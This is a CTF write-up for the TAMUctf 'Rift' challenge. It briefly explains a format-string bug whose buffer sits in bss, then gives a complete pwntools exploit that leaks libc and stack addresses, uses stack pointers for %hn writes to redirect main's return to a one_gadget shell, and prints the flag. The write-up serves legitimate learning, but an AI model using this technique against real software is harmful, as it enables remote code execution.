

# Rift

# Description


This was a format-string challenge with the buffer in the bss instead of the stack.<br>
Since our input is not in the stack, we can't place pointers on the stack to acheive an arbitrary write,<br>
but we can still use dangeling pointers on the stack :)<br>
TL;DR: we need to use a stack pointer to write and address on the stack, than use that address for an arbitrary write.<br>

# Exploit

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./rift_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.28.so")

context.binary = exe


def conn():
    r = remote("tamuctf.com", 443, ssl=True, sni="rift")
    return r


def main():
    r = conn()
    one_gadget = 0x4497f

    r.sendline(b"%1$p")
    libc.address = int(r.recvline().strip(),16) - 0x1bc8d0
    one_gadget += libc.address
    log.info(f"Libc address : {hex(libc.address)}")

    r.sendline(b"%8$p")
    stack = int(r.recvline().strip(),16) - 0x8 + 0x10
    log.info(f"stack address : {hex(stack)}")

    # overwrite the last 2 bytes of a stack address to point to main return address
    short = stack & 0xffff
    payload = f'%{short}c%13$hn'
    r.sendline(payload)
    # overwrite the last 2 bytes of main return address (libc_start_main+0x--) to point to one_gadget
    short = one_gadget & 0xffff
    payload = f'%{short}c%39$hn'
    r.sendline(payload)
    # overwrite the last 2 bytes of a stack address to point to main return address + 2
    short = (stack + 2) & 0xffff
    payload = f'%{short}c%13$hn'
    r.sendline(payload)
    # overwrite the second last 2 bytes of main return address (libc_start_main+0x--) to point to one_gadget
    short = (one_gadget & 0xffff0000) >> 16
    payload = f'%{short}c%39$hn'
    r.sendline(payload)
    # overwrite the last 2 bytes of a stack address to point to always_true address
    short = (stack & 0xffff) - 0x1c
    payload = f'%{short}c%13$hn'
    r.sendline(payload)
    # overwrite the always_true variable with 0 to break out of the while loop and return to main, then to one_gadget
    payload = f'%39$n'
    r.sendline(payload)

    # main will exit and instead of returning to __libc_start_main, it will return to one_gadget 
    r.interactive()


if __name__ == "__main__":
    main()
```
# Flag

gigem{ropping_in_style}
